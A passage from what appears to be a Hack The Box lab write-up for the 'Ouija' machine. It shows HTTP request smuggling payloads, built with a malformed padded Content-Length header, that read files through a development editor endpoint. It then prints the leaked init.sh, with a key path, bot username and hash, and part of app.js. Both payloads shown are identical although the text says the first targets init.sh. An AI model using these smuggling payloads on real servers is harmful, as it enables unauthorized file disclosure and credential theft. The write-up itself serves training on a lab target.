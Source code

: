 ![ouija6](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/42eb38e3-2789-4c80-b094-d618ab2ce845)

Using the HTTP request smuggling we dump the contents of both files.
Firstly, dump the contents of the `init.sh` file. We use the same payload, just update the `content-length` to match the size of the request.
```markdown
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 63

GET http://dev.ouija.htb/editor.php?file/app.js HTTP/1.1
x:Get / HTTP/1.1
Host: ouija.htb
```

![ouija7](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/f39b1033-e0fc-43ee-9f3f-daec56e660b1)

The file `init.sh` contains a hash and a username.
```markdown
#!/bin/bash

echo "$(date) api config starts" >>
mkdir -p .config/bin .config/local .config/share /var/log/zapi
export k=$(cat /opt/auth/api.key)
export botauth_id="bot1:bot"
export hash="4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1"
ln -s /proc .config/bin/process_informations
echo "$(date) api config done" >> /var/log/zapi/api.log

exit 1
```
This is not useful for the moment, so we take note and dump the other `app.js` file. The payload is the same, just remember to update the `content-length` accordingly in the request.
```markdown
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 63

GET http://dev.ouija.htb/editor.php?file/app.js HTTP/1.1
x:Get / HTTP/1.1
Host: ouija.htb
```

![ouija8](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/eb72adfb-662d-4ce2-bb76-c768c5dff680)

This file contains the source code of an application running on port 3000. 
```markdown
var express = require('express');
var app = express();
var crt = require('crypto');
var b85 = require('base85');
var fs = require('fs');
const key = process.env.k;

app.listen(3000, ()=>{ console.log("listening @ 3000"); });

function d(b){
    s1=(Buffer.from(b, 'base64')).toString('utf-8');
    s2=(Buffer.from(s1.toLowerCase(), 'hex'));
```